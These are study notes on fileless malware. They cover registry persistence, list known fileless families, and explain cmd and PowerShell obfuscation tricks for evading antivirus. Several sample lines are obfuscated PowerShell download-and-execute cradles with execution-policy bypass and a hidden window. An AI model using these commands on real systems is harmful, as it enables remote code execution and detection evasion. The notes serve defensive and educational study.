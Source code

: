 ### Maintaining Persistence with Fileless Techniques

* When compared to other malware types, fileless malware does not use disk files to spread its infection or maintain persistence.
* Attackers adopt unique methods such as developing load points to restart infected payloads to maintain persistence.
* Attackers save the malicious payload inside the registry that holds data for configurations, application files, and settings, which executes itself with every system restart.

### Fileless Malware

* Divergent
* Astaroth Backdoor  
* Nodersok  
* Vaporworm  
* njRat Backdoor  
* Sodinokibi Ransomware  
* Kovter and Poweliks  
* Dridex  
* Hancitor/Chanitor  
* Sorebrect Ransomware

### Fileless Malware Obfuscation Techniques to Bypass Antivirus

**Inserting Characters**: Attackers insert special characters such as comma\(,\) and semicolon \(;\) between malicious commands and strings to make well-known commands more complex to detect.

```text
,;cmd.exe,/c,;,echo;powershell.exe -NoExit -exec bypass -nop Invoke-Expression(New-Object System.Net.WebClient).DownloadString(‘https://targetwebsite.com”)&&echo,exit
```

**Inserting Parentheses**: When parentheses are used, variables in a code block are evaluated as a single line command. Attackers exploit this feature to split and obfuscate malicious commands.

```text
cmd.exe /c ((echo command1) 
&&( 
echo command2))
```

**Inserting Caret Symbol**: The caret symbol \(^\) is a reserved character used in shell commands for escaping. Attackers exploit this feature to escape malicious commands during execution time.

```text
C:\WINDOWS\system32\cmd.exe /c p^^o^^w^^e^^r^^s^^h^^e^^l^^l^^.^^e^^x^^e -No^^Exit -exec bypass -nop Invoke-Expression (New-Object System.Net.WebClient). DownloadString((‘https://targetwebsite.com”)&&echo,exit
```

**Inserting Double Quotes**: The command line parser uses the double quote symbol as an argument delimiter. Attackers use this symbol to concatenate malicious commands in arguments.

```text
Pow””er””Shell -N””oExit -ExecutionPolicy bypass -noprofile -windowstyle hidden cmd /c Flower.jpg
```
